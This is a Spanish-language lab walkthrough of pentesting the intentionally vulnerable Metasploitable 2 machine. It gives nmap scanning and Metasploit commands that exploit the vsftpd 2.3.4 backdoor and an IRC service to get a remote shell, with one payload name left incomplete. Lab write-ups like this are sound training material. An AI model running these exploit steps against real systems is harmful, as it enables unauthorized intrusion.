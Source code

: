 # Pentesting con Metasploitable 2

En esta tarea vamos a hacer pentesting en una máquina vulnerable **(Metasploitable 2)**.

## 1. Encontrar la máquina vulnerable

Entramos a nuestra máquina *kali linux* y hacemos un scanner de las máquinas disponibles.

```bash
sudo nmap -sN 192.168.2.0/24
```

Esto nos marcará las máquinas disponibles en la red. Veremos algo extraño que nos dirá que está es la máquina de metaexploitable.

![alt image](Capturas/1.png)

La máquina de metaexploitable es 192.168.2.141

## 2. Activar metaexploitable


```bash
sudo systemctl start postgresql
sudo msfdb init
sudo msfdb run
```

![alt image](Capturas/2.png)

Ahora vamos a buscar la vulnerabilidad de vsftpd

### vsftpd

```bash
search vsftpd
```

![alt image](Capturas/3.png)

Al usar vsftpd 2.3.4 el exploit para esa versión

![alt image](Capturas/4.png)

Asignamos la ip del eqipo vulnerable

```bash
set RHOSTS 192.168.2.141
```

Y ya podemos hacer el exploit

```bash
exploit
```

Y ya entramos a la maquina

![alt image](Capturas/5.png)

### IRC

![alt image](Capturas/6.png)

Usaremos la opción 18

```bash
use 18
options
```

En RHOSTS ponemos la ip de la máquina vulnerable

```bash
set RHOSTS 192.168.2.141
```

Ponemos el payload y en lhost la interfaz de red nuestra

```bash
set payload cmd/unix/
set lhost eth0
exploit
```

Y estamos dentro

![alt image](Capturas/7.png)

![alt image](Capturas/8.png)

---